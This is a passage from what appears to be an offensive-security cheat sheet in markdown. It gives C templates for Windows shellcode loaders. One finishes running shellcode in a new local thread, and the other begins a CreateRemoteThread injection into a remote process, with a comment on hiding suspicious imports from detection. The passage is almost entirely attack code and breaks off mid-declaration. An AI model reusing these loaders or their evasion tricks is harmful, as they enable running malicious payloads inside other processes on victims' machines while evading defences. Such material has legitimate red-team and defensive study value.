 ```c

    // Execute the shellcode by creating a new thread in the current process.
    SECURITY_ATTRIBUTES lpThreadAttributes = { 0 };
    HANDLE hThread = CreateThread(&lpThreadAttributes, 0, (LPTHREAD_START_ROUTINE) shellcodeBaseAddress, NULL, 0, NULL);

    if (!hThread) {
        printf("Thread execution using CreateThread failed: %x\n", GetLastError());
        return 1;
    }

    // Wait for the shellcode thread to finish execution.
    WaitForSingleObject(hThread, INFINITE);

    // Close the thread handle after use.
    CloseHandle(hThread);

    return 0;
}
```

###### [Windows] Basic C loader - CreateRemoteThread (inter-process)

The `C` code below may be used as a template for running a shellcode in a
remote process:

```c

#include "windows.h"
#include "Processthreadsapi.h"
#include "stdio.h"
#include "tchar.h"
#include "tlhelp32.h"

/*
*
* if using GetProcAddress to avoid suspicious imports in IAT.
*
*/

typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
    HANDLE             ProcessHandle,
    PVOID*             BaseAddress,
    ULONG              ZeroBits,
    PULONG             RegionSize,
    ULONG              AllocationType,
    ULONG              Protect
);

typedef NTSTATUS(NTAPI* pNtWriteVirtualMemory)(
    HANDLE             ProcessHandle,
    PVOID              BaseAddress,
    PVOID              Buffer,
    ULONG              NumberOfBytesToWrite,
    PULONG             NumberOfBytesWritten
);

typedef NTSTATUS(NTAPI* pNtProtectVirtualMemory)(
    HANDLE             ProcessHandle,
    PVOID*             BaseAddress,
    PSIZE_T            RegionSize,
    ULONG              NewProtect,
    PULONG             OldProtect
```